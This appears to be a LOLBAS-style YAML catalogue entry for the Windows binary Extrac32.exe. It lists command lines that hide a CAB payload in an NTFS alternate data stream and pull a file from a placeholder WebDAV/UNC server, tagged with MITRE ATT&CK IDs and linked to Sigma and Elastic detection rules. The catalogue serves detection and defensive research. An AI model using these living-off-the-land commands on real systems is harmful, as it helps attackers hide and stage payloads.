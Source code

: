 ```yaml
---
Name: Extrac32.exe
Description: Extract to ADS, copy or overwrite a file with Extrac32.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: Extracts the source CAB file on an unc path into an Alternate Data Stream (ADS) of the target file.
    Usecase: Extract data from cab file and hide it in an alternate data stream.
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: Copy the source file to the destination file and overwrite it.
    Usecase: Download file from UNC/WEBDav
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: extrac32.exe /C C:\Windows\System32\calc.exe C:\Users\user\Desktop\calc.exe
    Description: Command for copying calc.exe to another folder
    Usecase: Copy file
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\extrac32.exe
  - Path: C:\Windows\SysWOW64\extrac32.exe
Code_Sample:
  - Code:
Detection:
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0f33cbc85bf4b23b8d8308bfcc8b21a9e5431ee7/rules/windows/process_creation/win_pc_lolbas_extrac32.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/0f33cbc85bf4b23b8d8308bfcc8b21a9e5431ee7/rules/windows/process_creation/win_pc_lolbas_extrac32_ads.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - Link: https://twitter.com/egre55/status/985994639202283520
Acknowledgement:
  - Person: egre55
    Handle: '@egre55'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Hai Vaknin(Lux
    Handle: '@VakninHai'
  - Person: Tamir Yehuda
    Handle: '@tim8288'
---
```

